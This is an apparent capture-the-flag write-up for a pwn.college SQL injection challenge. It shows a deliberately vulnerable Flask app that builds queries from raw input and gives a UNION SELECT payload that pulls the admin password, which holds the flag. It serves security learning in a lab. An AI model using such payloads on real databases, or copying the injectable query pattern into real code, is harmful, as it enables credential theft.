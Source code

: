 This requires us to chain commands and get the flag from the password field of the admin user in the `users` table.

```python
#!/opt/pwn.college/python

import flask
import os

app = flask.Flask(__name__)

import sqlite3
import tempfile

class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result

db = TemporaryDB()

db.execute(f"""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])

# https://www.sqlite.org/lang_insert.html
db.execute(f"""INSERT INTO users SELECT "guest" as username, "password" as password""")

@app.route("/", methods=["GET"])
def challenge():
    query = flask.request.args.get("query", "%")

    try:
        # https://www.sqlite.org/lang_select.html
        sql = f'SELECT username FROM users WHERE username LIKE "{query}"'
        print(f"DEBUG: {query=}")
        results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
    except sqlite3.Error as e:
        results = f"SQL error: {e}"

    return f"""
        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='{query}'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>{ sql }</pre><br>
        <b>Results:</b><pre>{results}</pre>
        </body></html>
        """

app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

So for this, we can perform a union-based attack. We `union` 2 select queries to get the data from the second query (our query). The second query will try to access the password field of the `users` table and get the password field associated with the user admin.

```
Query: " UNION SELECT password from users WHERE username LIKE "admin"--
```